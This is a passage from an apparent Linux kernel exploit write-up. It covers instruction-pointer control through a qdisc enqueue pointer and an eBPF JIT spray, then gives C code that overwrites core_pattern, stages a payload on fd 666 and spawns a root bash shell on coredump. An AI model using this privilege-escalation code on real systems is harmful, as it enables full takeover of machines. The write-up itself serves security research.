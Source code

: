 
As a result, we can control about 0x80 bytes in fixed kernel address.

### RIP Control
We set `cl->qdisc` to fixed kernel address that contain our controlled value, and then set `enqueue` function pointer to guessed ebpf JIT address.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
    // Check if /proc/sys/kernel/core_pattern has been overwritten
    char buf[0x100] = {};
    int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
    read(core, buf, sizeof(buf));
    close(core);
    return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
    int memfd = memfd_create("", 0);
    SYSCHK(sendfile(memfd, open("root", 0), 0, 0xffffffff));
    dup2(memfd, 666);
    close(memfd);
    while (check_core() == 0)
        sleep(1);
    *(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Executable file `root` is used to spawn shell when coredump happened. This is the code looks like:
```c++
void* job(void* x){
	FILE* fp = popen("pidof billy","r");
	fread(buf,1,0x100,fp);
	fclose(fp);
	int pid = strtoull(buf,0,10);
	int pfd = syscall(SYS_pidfd_open,pid,0);
	int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
	int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
	int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
	dup2(stdinfd,0);
	dup2(stdoutfd,1);
	dup2(stderrfd,2);
	execlp("bash","bash",NULL);

}
int main(int argc,char** argv){	
	job(0);
}
```